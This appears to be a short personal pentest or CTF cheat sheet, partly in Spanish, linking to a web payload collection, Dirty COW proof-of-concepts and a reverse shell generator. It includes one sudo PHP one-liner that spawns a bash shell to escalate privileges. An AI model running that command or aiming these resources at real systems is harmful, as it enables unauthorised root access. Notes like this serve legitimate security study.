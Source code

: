 
#github #sqli #xss #xxe 
[swisskyrepo/PayloadsAllTheThings: A list of useful payloads and bypass for Web Application Security and Pentest/CTF (github.com)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master)

#cow
[PoCs · dirtycow/dirtycow.github.io Wiki](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)

#reverse_shells
[Online - Reverse Shell Generator (revshells.com)](https://www.revshells.com/)

#php #admin #shell
comando para subir privilegios en una web que puede ejecutar php
sudo /usr/bin/php -r 'system("/bin/bash");'


#busqueda_archivos
find / -name "name" 2>/dev/null




